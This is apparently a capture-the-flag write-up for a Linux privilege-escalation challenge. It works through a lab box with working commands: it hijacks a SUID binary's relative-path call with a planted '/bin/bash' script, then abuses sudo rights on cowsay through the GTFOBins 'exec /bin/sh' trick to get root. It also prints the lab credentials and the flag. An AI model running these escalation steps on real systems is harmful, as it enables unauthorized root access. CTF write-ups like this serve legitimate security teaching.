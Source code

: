 # Undercover#1

### Category

System

### Description

You have been recruited by the CEO of Hero & Co. to test their security. But before handing you out the assignement, the asked you have to prove yourself, and escalate your privileges on this test system all the way to root.

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

As the flag suggest, this is a very basic privilege escalation exercise.

First, user1 is allowed to run the `hmmm` binary which is owned by user2, and has the SUID bit set.
```
user1@3d3311eb9fad:~$ ls -l hmmm 
-rwsrwsr-x 1 user2 user2 915136 May  8 21:48 hmmm
```

If we run it, we see the ruid is set to uid, and it runs and inexisting `WTFFFFF` program.
```
user1@30b4cc252fc8:~$ ./hmmm 
Not sure why, but I'm gonna set my ruid to my uid.
Not sure why, but I'm gonna run the 'WTFFFFF' program right now.
sh: 1: ./WTFFFFF: not found
```

Let's create that program.
```
user1@30b4cc252fc8:~$ echo "/bin/bash" > WTFFFFF && chmod +x WTFFFFF
user1@30b4cc252fc8:~$ ./hmmm 
Not sure why, but I'm gonna set my ruid to my uid.
Not sure why, but I'm gonna run the 'WTFFFFF' program right now.
user2@30b4cc252fc8:~$ whoami
user2
```

Here we go !

Next up, let's see which sudo rights user2 has.
```
user2@30b4cc252fc8:~$ sudo -l
Matching Defaults entries for user2 on 30b4cc252fc8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on 30b4cc252fc8:
    (root) NOPASSWD: /usr/games/cowsay
```

user2 is allowed to run the very usefull utilitary program `cowsay` as root, without password.

https://gtfobins.github.io/ states
```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
sudo cowsay -f $TF x
```

Let's run this by replacing cowsay with it's absolute path.
```
user2@30b4cc252fc8:~$ TF=$(mktemp)
user2@30b4cc252fc8:~$ echo 'exec "/bin/sh";' >$TF
user2@30b4cc252fc8:~$ sudo $(which cowsay) -f $TF x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag.txt	
Hero{B4ck_2_b4s1cs}
```
 Congratz !

### Flag

```Hero{B4ck_2_b4s1cs}```